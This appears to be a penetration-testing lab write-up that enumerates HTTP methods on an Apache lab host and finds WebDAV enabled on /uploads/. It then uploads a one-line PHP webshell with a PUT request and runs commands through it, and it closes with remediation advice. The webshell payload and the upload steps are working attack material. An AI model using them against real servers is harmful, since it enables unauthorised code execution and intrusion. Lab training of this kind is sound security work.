# HTTP Method Enumeration

**Classification:** Host & Network Penetration Testing / Web & HTTP Protocol<br>
**Target:** demo.ine.local (192.118.51.3) — Apache

## 1. Executive Summary

Enumerating which HTTP methods a server allows can reveal dangerous capabilities. Using
`curl`, Wireshark and Burp Suite, we probe the methods per resource and find a
**WebDAV-enabled `/uploads/`** directory (`OPTIONS` returns `DAV: 1,2` with PUT/DELETE/MOVE).
We abuse **PUT** to upload a webshell and get remote code execution.

## 2. Recon

```bash
ping -c 4 demo.ine.local
```





Observing the TCP/HTTP handshake in Wireshark.







```bash
netstat -ant     # confirm the connection on reload
```



## 3. Probing Methods with curl

```bash
curl http://192.118.51.3/
```



```bash
curl -I http://192.118.51.3/        # HEAD
```



```bash
curl -X OPTIONS -i http://192.118.51.3/     # allowed methods
```





```bash
curl -X PUT http://192.118.51.3/test.txt -d "data"
```



## 4. Burp Suite

Routing through Burp and intercepting requests/logins.













## 5. Finding WebDAV (/uploads/)

```bash
dirb http://192.118.51.3/        # /uploads
```





Changing `GET` to `OPTIONS` on `/uploads/` in Repeater shows WebDAV is enabled.

```http
OPTIONS /uploads/ HTTP/1.1
->
DAV: 1,2
Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK
```



## 6. Exploiting PUT → Webshell

```http
PUT /uploads/shell.php HTTP/1.1
Host: 192.118.51.3

<?php system($_GET['cmd']); ?>
```





```
http://192.118.51.3/uploads/shell.php?cmd=id
```



## 7. Remediation Recommendations

1. **Disable WebDAV / dangerous methods** (PUT, DELETE, MOVE, TRACE) unless required; make
   upload directories non-executable.
2. **Restrict allowed methods** per resource (e.g. `LimitExcept`) and require auth for writes.
3. **Validate uploads** server-side and store them outside the web root.
4. **Monitor** for `PUT` of executable extensions and anomalous method usage.
